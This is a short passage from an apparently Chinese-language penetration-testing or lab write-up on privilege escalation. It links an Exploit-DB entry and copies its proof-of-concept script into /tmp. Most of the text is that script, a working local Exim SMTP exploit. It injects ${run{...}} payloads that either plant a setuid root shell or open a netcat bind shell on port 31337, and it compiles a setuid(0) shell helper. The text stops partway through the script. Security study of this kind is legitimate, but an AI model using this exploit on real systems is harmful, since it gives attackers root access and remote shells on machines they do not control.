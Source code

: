 DOS 和命令执行先 pass,测一下提权 https://www.exploit-db.com/exploits/46996

将 poc 保存到 tmp 目录下
```bash
cd /tmp

tee pri.sh <<-'EOF'
METHOD="setuid" # default method
PAYLOAD_SETUID='${run{\x2fbin\x2fsh\t-c\t\x22chown\troot\t\x2ftmp\x2fpwned\x3bchmod\t4755\t\x2ftmp\x2fpwned\x22}}@localhost'
PAYLOAD_NETCAT='${run{\x2fbin\x2fsh\t-c\t\x22nc\t-lp\t31337\t-e\t\x2fbin\x2fsh\x22}}@localhost'

# usage instructions
function usage()
{
	echo "$0 [-m METHOD]"
	exit 1
}

function exploit()
{
	exec 3<>/dev/tcp/localhost/25

	read -u 3 && echo $REPLY
	echo "helo localhost" >&3
	read -u 3 && echo $REPLY
	echo "mail from:<>" >&3
	read -u 3 && echo $REPLY
	echo "rcpt to:<$PAYLOAD>" >&3
	read -u 3 && echo $REPLY
	echo "data" >&3
	read -u 3 && echo $REPLY
	for i in {1..31}
	do
		echo "Received: $i" >&3
	done
	echo "." >&3
	read -u 3 && echo $REPLY
	echo "quit" >&3
	read -u 3 && echo $REPLY
}

while [ ! -z "$1" ]; do
	case $1 in
		-m) shift; METHOD="$1"; shift;;
		* ) usage
		;;
	esac
done
if [ -z $METHOD ]; then
	usage
fi

if [ $METHOD = "setuid" ]; then

	echo "Preparing setuid shell helper..."
	echo "main(){setuid(0);setgid(0);system(\"/bin/sh\");}" >/tmp/pwned.c
	gcc -o /tmp/pwned /tmp/pwned.c 2>/dev/null
	if [ $? -ne 0 ]; then
		echo "Problems compiling setuid shell helper, check your gcc."
		echo "Falling back to the /bin/sh method."
		cp /bin/sh /tmp/pwned
	fi
	echo
```